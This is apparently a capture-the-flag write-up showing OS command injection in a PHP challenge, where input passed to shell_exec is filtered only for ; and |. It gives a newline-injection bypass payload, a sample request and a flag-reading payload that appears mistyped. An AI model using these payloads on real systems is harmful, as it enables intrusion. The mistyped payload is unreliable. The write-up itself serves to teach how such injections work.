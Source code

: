 This is the challenge homepage.

What I noticed immediately is the <?= shell_exec('ls '.$parsed); ?> present in the source code.

If we can control the $parsed variable, we can execute commands.

Thanks to the source code provided, we can see that the input is passed into the preg_match_all function, filtering out the characters ; and |.

Let’s break it down!

When input POST parameter is provided, it’ll check the input contains `; OR | `character via regular expression (regex). If no input parameter is provided or it contains `; OR |`, default value will be `/home/`.

Finally, it’ll parse our input to a `shell_exec()` function, which will execute shell command!

Nice, we found a sink (Dangerous function)!

Let’s look at the `shell_exec()` function:

```php
<?= shell_exec('ls '.$parsed); ?>
```

This function will execute ls <path>!

That being said, although it has a regex filter, it’s still vulnerable to OS command injection!

# Exploitation

To bypass it, I’ll use the new line character `\n` (`%0a` in URL encoding)!

```
%0aid
```

Also, I’ll be using Burp Suite’s Repeater to send the `payload` :

```
Accept-Encoding: gzip, deflate
Accept-Language: id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

input=%0aid
```

Boom! We have `Remote Code Execution` (RCE)!

Let’s read the flag!

payload : 

```
%0cat+/home/flag.txt
```
# Flag
```
PWNME{U53R_1NpU75_1n_5h3lL_3x3c_77}
```
